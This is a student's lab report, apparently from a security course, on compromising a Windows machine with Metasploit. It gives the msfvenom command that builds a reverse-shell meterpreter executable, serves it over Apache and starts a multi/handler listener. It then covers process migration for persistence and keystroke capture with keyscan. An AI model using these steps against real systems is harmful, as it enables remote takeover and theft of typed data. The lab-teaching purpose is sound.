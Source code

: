 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
```
NAME: SUJITHRA D
REG.NO: 212222220052
```

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## OUTPUT:

![Screenshot 2025-04-23 231505](https://github.com/user-attachments/assets/366085f9-9355-4b6e-a9d5-eddce3a17cef)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## Output

![Screenshot 2025-04-23 234602](https://github.com/user-attachments/assets/12172145-5ee1-4baa-bba9-44b99fb41c47)

copy the fun.exe into the apache /var/www/html folder

![Screenshot 2025-04-23 234612](https://github.com/user-attachments/assets/654dbc15-70c8-4009-8e79-07e54ac7967c)

Start apache server sudo systemctl apache2 start

![Screenshot 2025-04-23 234617](https://github.com/user-attachments/assets/17a731b8-06c7-45d9-b24d-9c6ea652f966)

Check the status of apache2

![Screenshot 2025-04-23 234710](https://github.com/user-attachments/assets/d726d5a1-18b3-4af3-872a-9cd842705320)

## Output:

![Screenshot 2025-04-23 231846](https://github.com/user-attachments/assets/b63927bc-8631-4e08-8fc0-67b50ebc2a9f)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2025-04-23 235303](https://github.com/user-attachments/assets/e20ecfd2-220b-4578-8ba6-6083215a1117)

Starting a command and control Server use multi/handler
![Screenshot 2025-04-23 235431](https://github.com/user-attachments/assets/ec0bda09-1683-443f-b735-05c14a922c31)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.220.129/fun.exe The file "fun.exe" downloads.

![Screenshot 2025-04-23 235454](https://github.com/user-attachments/assets/abe01f92-87ad-432d-9ebe-33b53401d9a3)


Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![Screenshot 2025-04-24 000012](https://github.com/user-attachments/assets/2d0f4282-85a8-49e0-810a-5d2b096e5d83)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2025-04-24 000031](https://github.com/user-attachments/assets/48fdbae6-feb7-4322-877c-83f4038e5951)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2025-04-24 000052](https://github.com/user-attachments/assets/b8b5e358-55f6-4956-849d-c9ffa3ca016c)

keyscan_dump Shows the keystrokes captured so far

![Screenshot 2025-04-24 000105](https://github.com/user-attachments/assets/1b2abe7f-e44c-42b5-9d24-97415685cecb)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
